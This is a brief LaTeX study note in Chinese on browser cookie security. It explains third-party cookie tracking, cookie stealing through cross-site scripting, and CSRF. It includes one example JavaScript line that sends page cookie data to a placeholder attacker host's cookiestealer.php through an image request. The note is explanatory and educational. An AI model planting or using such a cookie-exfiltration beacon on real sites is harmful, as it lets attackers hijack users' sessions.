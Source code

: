 \paragraph{Third-Party Cookies} 第三方cookies

\begin{itemize}
\item link tag包含的CSS文件
\item script tag包含的js文件
\item object或者embed tag包含的meida文件
\item iframe tag包含的html文件
\end{itemize}

对于第三方server，可以根据请求头中包含的Referer头来判断这个请求是从哪个site过来的。服务器可以使用一个特定的cookie来表示这个请求页面，如果同一个资源从另外一个页面请求过来，cookie也会随着请求一起发送过来。这样第三方服务器就能够知道访问Site A的用户同时也访问了Site B。这是在线广告使用的一种技术。


\paragraph{Cookie Stealing \& XSS} Cookie偷取 cross-site scripting attack

在同一个页面的所有JavaScript都运行在同一个domain下，有相同的path，和页面相同的协议。这表示从其他domain导入的script可以通过读取document.cookie来获得页面的cookie。

比如说从第三方evil-domain.com导入了一些有用的code，如果在evil-domain.com的家伙将代码换成下面的代码的话。
\begin{JavaScript}
(new Image()).src = "http://www.evil-domain.com/cookiestealer.php?cookie=" + cookie.domain;
\end{JavaScript}
他们就悄悄的取得了我的页面的cookie，这样他们就可以轻松的进行其他攻击，如session hijacking.

当由于导入第三方脚本造成的攻击，我们称为XSS(cross-site scripting attack).

cookie stealing不单只是因为导入了第三方脚本导致，对input缺乏过滤也可能造成cookie stealing。如果输入可以输出到一个页面，而输入中包含了 \lstinline$<script>$标签在其中，也可能导致脚本运行。


\paragraph{CSRF} Cross-site Request Forgery

攻击者让浏览器以登陆的用户做一些有害的操作。

